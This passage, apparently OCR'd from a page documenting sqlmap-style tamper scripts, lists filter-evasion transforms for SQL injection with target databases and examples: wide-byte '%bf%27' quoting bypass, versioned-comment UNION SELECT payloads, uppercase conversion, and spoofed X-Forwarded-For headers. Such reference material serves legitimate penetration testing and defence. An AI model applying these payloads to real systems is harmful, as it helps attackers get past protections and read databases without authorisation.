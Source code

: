 ~~~
Function: ‘ ==> %df%27
Platform: Mysql magic_quotes/addslashes
example
1' AND 1=1 ==> 1%bf%27 —
~~~
uppercase.py
~~~
Function: Lower case to upper case
Platform: Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
example
insert ==> INSERT
~~~
varnish.py
~~~
Function: header
example
X-originating-IP: 127.0.0.1
~~~
versionedkeywords.py
~~~
Function: union ==> /!union/
Platform: MySQL 4.0.18, 5.1.56, 5.5.11
example
1 union select user() ==> 1/*!UNION*//*!SELECT*/user()
~~~
versionedmorekeywords.py
~~~
Function: union ==> /!union/
Platform: MySQL 5.1.56, 5.5.11
example
1 union select user() ==> 1/*!UNION*//*!SELECT*/user()
~~~
xforwardedfor.py
~~~
Function: X-Forwarded-For Random Head
Platform: All
example
X-Forwarded-For: 127.0.0.1
~~~